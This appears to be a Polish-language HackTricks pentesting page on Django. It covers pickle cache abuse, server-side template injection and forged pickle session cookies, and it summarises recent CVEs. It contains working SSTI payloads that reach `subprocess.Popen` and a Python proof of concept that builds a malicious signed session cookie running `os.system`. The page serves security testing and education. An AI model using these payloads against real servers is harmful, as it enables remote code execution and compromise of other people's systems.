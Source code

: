 # Django

{{#include /src/banners/hacktricks-training.md}}

## Manipulacja pamięcią podręczną do RCE
Domyślną metodą przechowywania pamięci podręcznej w Django są [Python pickles](https://docs.python.org/3/library/pickle.html), co może prowadzić do RCE, jeśli [niezaufany input jest odpakowywany](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Jeśli atakujący uzyska dostęp do zapisu w pamięci podręcznej, może eskalować tę podatność do RCE na serwerze bazowym**.

Pamięć podręczna Django jest przechowywana w jednym z czterech miejsc: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [pamięci](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [plikach](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) lub w [bazie danych](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Pamięć podręczna przechowywana na serwerze Redis lub w bazie danych jest najbardziej prawdopodobnym wektorem ataku (iniekcja Redis i iniekcja SQL), ale atakujący może również wykorzystać pamięć podręczną opartą na plikach, aby przekształcić dowolny zapis w RCE. Utrzymujący oznaczyli to jako problem, który nie wymaga uwagi. Ważne jest, aby zauważyć, że folder plików pamięci podręcznej, nazwa tabeli SQL i szczegóły serwera Redis będą się różnić w zależności od implementacji.

Ten raport HackerOne dostarcza świetny, powtarzalny przykład wykorzystania pamięci podręcznej Django przechowywanej w bazie danych SQLite: https://hackerone.com/reports/1415436

---

## Wstrzykiwanie szablonów po stronie serwera (SSTI)
Język szablonów Django (DTL) jest **kompletny w sensie Turinga**. Jeśli dane dostarczone przez użytkownika są renderowane jako *ciąg szablonu* (na przykład przez wywołanie `Template(user_input).render()` lub gdy `|safe`/`format_html()` usuwa automatyczne eskapowanie), atakujący może osiągnąć pełne SSTI → RCE.

### Wykrywanie
1. Szukaj dynamicznych wywołań do `Template()` / `Engine.from_string()` / `render_to_string()`, które zawierają *jakiekolwiek* niesanitizowane dane z żądania.
2. Wyślij ładunek oparty na czasie lub arytmetyce:
```django
{{7*7}}
```
Jeśli renderowany wynik zawiera `49`, input jest kompilowany przez silnik szablonów.

### Primitwa do RCE
Django blokuje bezpośredni dostęp do `__import__`, ale graf obiektów Pythona jest osiągalny:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Znajdź indeks `subprocess.Popen` (≈400–500 w zależności od wersji Pythona) i wykonaj dowolne polecenia:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Bezpieczniejszym uniwersalnym gadżetem jest iteracja, aż `cls.__name__ == 'Popen'`.

Ten sam gadżet działa dla funkcji renderowania **Debug Toolbar** lub **Django-CMS**, które niewłaściwie obsługują dane wejściowe użytkownika.

---

## RCE z wykorzystaniem ciasteczka sesyjnego opartego na Pickle
Jeśli ustawienie `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` jest włączone (lub niestandardowy serializer, który deserializuje pickle), Django *deszyfruje i unpickluje* ciasteczko sesyjne **przed** wywołaniem jakiegokolwiek kodu widoku. Dlatego posiadanie ważnego klucza podpisu (domyślnie `SECRET_KEY` projektu) wystarcza do natychmiastowego zdalnego wykonania kodu.

### Wymagania dotyczące eksploatacji
* Serwer używa `PickleSerializer`.
* Atakujący zna / może zgadnąć `settings.SECRET_KEY` (wycieki przez GitHub, `.env`, strony błędów itp.).

### Dowód koncepcji
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Wyślij wynikowe ciasteczko, a ładunek działa z uprawnieniami pracownika WSGI.

**Mitigacje**: Utrzymuj domyślny `JSONSerializer`, rotuj `SECRET_KEY` i skonfiguruj `SESSION_COOKIE_HTTPONLY`.

---

## Ostatnie (2023-2025) Wysokiego Wpływu CVE Django, które powinni sprawdzić pentesterzy
* **CVE-2025-48432** – *Wstrzykiwanie logów przez nieescapowany `request.path`* (naprawione 4 czerwca 2025). Umożliwia atakującym wprowadzenie nowych linii/kodów ANSI do plików dziennika i zanieczyszczenie analizy logów w dół. Poziom łaty ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Krytyczne wstrzykiwanie SQL* w `QuerySet.values()/values_list()` na `JSONField` (CVSS 9.8). Twórz klucze JSON, aby wydostać się z cytatów i wykonać dowolne SQL. Naprawione w 4.2.15 / 5.0.8.

Zawsze identyfikuj dokładną wersję frameworka za pomocą strony błędu `X-Frame-Options` lub hasha `/static/admin/css/base.css` i testuj powyższe tam, gdzie to możliwe.

---

## Odniesienia
* Wydanie zabezpieczeń Django – "Django 5.2.2, 5.1.10, 4.2.22 adresuje CVE-2025-48432" – 4 czerwca 2025.
* OP-Innovate: "Django wydaje aktualizacje zabezpieczeń w celu rozwiązania problemu z wstrzykiwaniem SQL CVE-2024-42005" – 11 sierpnia 2024.

{{#include /src/banners/hacktricks-training.md}}
